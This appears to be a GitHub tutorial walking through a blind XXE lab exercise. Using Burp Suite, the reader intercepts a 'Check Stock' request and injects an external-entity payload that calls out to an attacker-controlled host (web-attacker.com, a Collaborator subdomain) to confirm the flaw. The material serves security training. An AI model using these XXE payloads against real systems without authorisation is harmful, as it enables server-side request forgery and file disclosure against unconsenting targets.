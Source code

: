 # Exploiting XXE to Extract Files, Perform SSRF, and Handle Blind XXE 🚨

XXE (XML External Entity) is a vulnerability that allows attackers to extract files from a server, perform SSRF attacks, and exploit "Blind" XXE vulnerabilities. This guide covers all these scenarios with detailed examples. 💡

---

## Part 1: What is Blind XXE?

Blind XXE occurs when an application is vulnerable to XXE but does not return the values of any external entities in its responses. This makes direct data extraction impossible, and such vulnerabilities are harder to exploit than typical XXE.

### Key Methods to Detect and Exploit Blind XXE:

1. Initiate out-of-band (OAST) network interactions, which may allow extracting sensitive data from such interactions.
2. Trigger XML parsing errors that include sensitive data in the error messages.

### Detecting Blind XXE Using Out-of-Band Methods

Blind XXE can often be detected by initiating an out-of-band network interaction with a system you control. For example:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Use the defined entity in the XML data values. This approach forces the server to make an HTTP request to the specified URL, which the attacker can monitor for DNS lookups and HTTP requests.

---

## Example Lab Exercise

In this lab, the "Check Stock" function analyzes XML input data but does not display the result. You can detect a blind XXE vulnerability by initiating interaction with an external domain.

### Steps to Perform the Attack

### 1. Select a Product
Open the list of products and choose any item:

![Product List](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Click the Button
On the product page, click the **"Check Stock"** button after enabling a proxy tool (e.g., Burp Suite):

![Check Stock Button](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Intercept the Request
Go to **Proxy → HTTP History**, locate the POST request to `/product/stock`, and send it to **Repeater**:

![POST Request](https://github.com/user-attachments/assets/1b91cebe-7063-460d-93aa-b390c6a4df26)

---

### 4. Inject the Payload 🚀

Insert the following external entity definition between the XML declaration and the `stockCheck` element. Use **Burp Collaborator** to insert your own subdomain where `BURP-COLLABORATOR-SUBDOMAIN` is indicated:
```xml
<!DOCTYPE stockCheck [ <!ENTITY eyes SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

Replace the `productId` value with `&eyes;`:

![Collaborator Payload Injection](https://github.com/user-attachments/assets/e517ef38-cf10-47cb-8080-4a6446ee6367)

---

### 5. Check Collaborator
Switch to the **Collaborator** tab and click **"Poll now"**. If interactions are not visible, wait a few seconds and try again. You should see DNS and HTTP interactions initiated by the application as a result of your payload.

